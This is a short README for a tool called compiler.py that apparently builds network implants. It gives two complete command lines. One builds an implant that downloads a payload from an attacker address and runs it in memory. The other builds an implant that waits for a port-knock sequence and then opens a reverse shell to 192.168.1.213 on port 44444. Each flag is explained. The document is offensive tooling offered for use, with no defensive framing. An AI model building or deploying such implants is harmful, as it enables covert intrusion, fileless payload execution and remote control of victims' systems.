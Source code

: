 # Compiler.py

## Quick Commands

### Download & Exec
```
python3 compiler.py -o sniffer -ip 192.168.1.242 -atkD http://192.168.1.213/payload --interface wlp41s0 -d
```

-o specifies the output name, -ip specifies the allowable ip list that the implant can run on, -atkD specifies the address to download data from, --interface is the interface to listen on, -d is for debugging

This is used to just download and execute some binary on a machine. The downloader does not download to a file, it downloads into memory and executes it in memory.

### Reverse Shell
```
python3 compiler.py -o sniffer -ip 192.168.1.247 -key 20000,30000,40000,50000 -size 4 -act PORT_KNOCK_LIST -delayT 5 -atkR -revip 192.168.1.213 -revport 44444 -d --interface wlp41s0
```

-o specifies the output name, -ip specifies the allowable ip list that the implant can run on, -key specifies the ports to listen for, -size is the number of ports in the key, -act specifies the activation method (which should mainly just be PORT_KNOCK_LIST), -delayT is the number of seconds it should wait until it tries to connect, -atkR specifies a reverse shell, -revip is the ip to connect to, -revport is the port to connect to, --interface is the interface to listen on, -d is for debugging